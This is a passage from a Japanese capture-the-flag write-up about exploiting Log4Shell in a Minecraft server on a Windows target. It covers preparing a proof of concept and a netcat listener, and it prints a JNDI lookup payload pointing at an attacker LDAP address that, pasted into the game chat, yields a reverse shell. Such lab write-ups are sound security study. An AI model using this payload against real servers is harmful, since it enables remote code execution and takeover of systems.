 今回のターゲットマシンのOSはWindowsであることが分かっているため
`String cmd="/bin/sh";`を/bin/bashではなく、cmd.exeに変更する。

pocの実行に必要となるJDKをダウンロードする

```
sudo wget -c — no-cookies — no-check-certificate — header “Cookie: oraclelicense=accept-securebackup-cookie” https://download.oracle.com/otn/java/jdk/8u20-b26/jdk-8u20-linux-x64.tar.gz
```
場合によってはJDKのインストールにはOracleのアカウント登録が必要になる

ダウンロードしたファイルを同じフォルダ内に解凍しておく

これで必要となるツールの準備がそろった

実際にエクスプロイトを行うには別のターミナルウィンドウでnetcatリスナーとpocを実行してpocによって生成されたリバースシェルペイロードをマイクラ内のチャット欄に張り付ける必要がある。

![](screenshot/2024-06-14_10-25.png)

生成されたペイロード`${jndi:ldap://10.10.16.28:1389/a}`をマイクラのチャット欄に張り付けると

![](screenshot/2024-06-14_10-26.png)

シェルの取得に成功した

![](screenshot/2024-06-14_18-48.png)
